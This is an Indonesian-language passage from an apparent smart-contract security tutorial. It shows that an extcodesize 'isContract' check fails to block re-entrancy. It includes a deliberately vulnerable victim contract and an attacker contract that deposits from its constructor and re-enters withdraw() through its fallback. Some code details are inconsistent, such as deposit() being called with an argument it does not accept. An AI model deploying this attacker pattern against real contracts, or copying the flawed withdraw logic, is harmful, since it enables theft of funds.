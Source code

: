 Seseorang mungkin menganggap mengalahkan re-entrancy cukup dengan mencegah kontrak pintar apa pun berinteraksi dengan kode Anda. Anda mencari tumpukan yang meluap, Anda menemukan potongan kode ini dengan banyak suara positif:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Tampak masuk akal: kontrak memiliki kode, jika pemanggil memiliki kode apa pun, jangan membiarkannya melakukan deposito. Mari tambahkan ini:

```solidity
// KONTRAK INI SENGAJA DIBUAT MEMILIKI KERENTANAN, JANGAN DISALIN
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Sekarang, untuk mendepositokan ETH, Anda tidak boleh memiliki kode kontrak pintar di alamat Anda. Akan tetapi, ini bisa dengan mudah dikalahkan dengan kontrak Penyerang berikut ini:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
